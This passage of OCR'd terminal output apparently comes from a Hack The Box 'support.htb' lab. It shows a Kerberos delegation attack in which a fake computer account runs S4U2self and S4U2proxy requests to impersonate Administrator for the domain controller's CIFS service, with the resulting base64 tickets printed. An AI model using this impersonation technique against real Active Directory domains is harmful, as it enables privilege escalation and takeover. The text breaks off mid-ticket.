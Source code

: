 ```bash
      WfaulYMVv8qjqJ4dU8mznqQzAhXe0QO74qPJ075uupeasU7KI+vL+B0iJQNdsfjAEWCs5MASiOFMroAa
      Ho7ENehd8JETjW5NIKBaXikq6OboI6NB67q+POcM7R3grHN0/DgTplfe+FRc1ErHRqAH7WsWwRhLx3lo
      fZBtLImXB8yCKLimMptx0DS3K/0r72ZoTy2go7QcTP4mqIhTfoF5NfxBKPw+fzREG/MzfPG9wNkfwaOB
      1zCB1KADAgEAooHMBIHJfYHGMIHDoIHAMIG9MIG6oBswGaADAgEXoRIEEGp61BQcGsMlDIl0n1SmQl6h
      DRsLU1VQUE9SVC5IVEKiGTAXoAMCAQGhEDAOGwxGQUtFLUNPTVAwMSSjBwMFAEDhAAClERgPMjAyNTA1
      MjQxMjI2MjdaphEYDzIwMjUwNTI0MjIyNjI3WqcRGA8yMDI1MDUzMTEyMjYyN1qoDRsLU1VQUE9SVC5I
      VEKpIDAeoAMCAQKhFzAVGwZrcmJ0Z3QbC3N1cHBvcnQuaHRi


[*] Action: S4U

[*] Building S4U2self request for: 'FAKE-COMP01$@SUPPORT.HTB'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2self request to ::1:88
[+] S4U2self success!
[*] Got a TGS for 'Administrator' to 'FAKE-COMP01$@SUPPORT.HTB'
[*] base64(ticket.kirbi):

      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
      MA4bDEZBS0UtQ09NUDAxJA==

[*] Impersonating user 'Administrator' to target SPN 'cifs/dc.support.htb'
[*] Building S4U2proxy request for service: 'cifs/dc.support.htb'
[*] Using domain controller: dc.support.htb (::1)
[*] Sending S4U2proxy request to domain controller ::1:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.support.htb':

      doIGaDCCBmSgAwIBBaEDAgEWooIFejCCBXZhggVyMIIFbqADAgEFoQ0bC1NVUFBPUlQuSFRCoiEwH6AD
      AgECoRgwFhsEY2lmcxsOZGMuc3VwcG9ydC5odGKjggUzMIIFL6ADAgESoQMCAQaiggUhBIIFHSKaUSn6
      t45airpk1ZYY2gPk0PV416iFdEN8fQYTC+Kqm0d6HvZKuPb3e6Zbl8g7S/FI8bqIGEuj0qHE3OWQzD8e
      JuO4XZ1m5F1wS1RdiJNvegfsxmRIgVTDA6LX6pmEx12Gp5e9xLZMhC4a/BLgVXCEsLAYaX/drKa/5FwM
      5B1IGernQiNGkZ04bhAzlxoHQPVOcEVRp+R+k7jjhk1+N2s4gL4MYw3waq2BTKbzBwpMBSZT1B0mR2l3
      yqxZ4NoeuwHphfnOsIl6Fc/Kh+hpXJuzMNKHoa8GbMXlZGDx5Qfvx47Gx+IICiJjBtrmxRsCQjUsd0zx
      4GywMA7PFzWtHf1L7uUFDuCF2t6QKNTE3PS1ZV7jnu2oNdo3XKTWGCVkVLb1pVDFopY/9G3XHZVgY/Fa
      zVitKqjUs4U+1a2XhWs3RcqucsUUE+fo/CY7SEGmAuA89YBbH9iXatuYL25rg/KwXJlR6ABjouABHYmA
      i+EbCN36vc4N+/OjBol4Zg1na7uIiFnNWbrVF/TpNOrIi4UnNRUnEpeUXyWt6NadmJ5DKBFhoggdT6BC
      TRE2oLq2byPWFcDmb9VansbZOLdDX1MgSvHULSAOHS9h2jeKKdKOfgXcdYXCHgEgrlNFizP44559Fn10
      Ar88V0Yyqk/K80dTIdqhiYUn+2QU+eTOLv8v3Ogoluqfh8KgGlkdfikp3khzYwhhaC96TbJ7C4P1QNU4
      F89qu3WK7OPwLf3aJDdASSwxlgTFW/mmiRtctsB2dnYQA5byp1RIH9ANbM8a/LN7oKq7/gowzVuOsM+P
```